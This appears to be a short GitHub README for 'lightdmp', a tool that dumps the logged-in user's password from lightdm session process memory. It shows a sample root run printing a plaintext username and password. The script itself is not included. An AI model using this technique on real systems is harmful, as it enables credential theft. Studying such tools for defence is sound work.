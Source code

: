 # lightdmp
Dumps the currently logged on users' password from lightdm --session-child process memory.

```
root@pwnd# ./lightdmp.sh 
 _ _       _     _   ____  __  __ ____  
| (_) __ _| |__ | |_|  _ \|  \/  |  _ \ 
| | |/ _` | '_ \| __| | | | |\/| | |_) |
| | | (_| | | | | |_| |_| | |  | |  __/ 
|_|_|\__, |_| |_|\__|____/|_|  |_|_|    
     |___/                           
USERNAME: root 
PASSWORD: r00tp@ass89!
```
